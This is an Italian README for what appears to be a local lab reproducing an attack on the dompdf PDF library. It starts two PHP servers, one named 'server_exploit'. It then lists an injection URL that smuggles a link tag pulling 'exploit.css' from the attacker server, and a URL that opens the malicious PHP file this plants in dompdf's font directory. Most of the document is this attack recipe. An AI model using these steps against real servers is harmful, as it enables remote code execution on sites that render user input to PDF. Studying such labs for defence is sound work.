 # Guida All'Uso
## Setup del progetto
1. Entra all'interno della cartella project e lancia questo comando:

    ``` cd public/ && php -S localhost:8000```
2. In un nuovo terminale entra all'interno della cartella server_exploit e lancia questo comando:

    ```php -S localhost:9000```

## Comandi per eseguire l'attacco
1. Inietta codice malevolo:

    ```http://localhost:8000/pdf/make?data=%3Clink%20rel=stylesheet%20href=%27http://localhost:9000/exploit.css%27%3E```
2. Accedi al file con il codice malevolo:

    ```http://localhost:8000/dompdf/lib/fonts/exploitfont_normal_ab81032048ddcc3ce0513091997f6fe7.php```

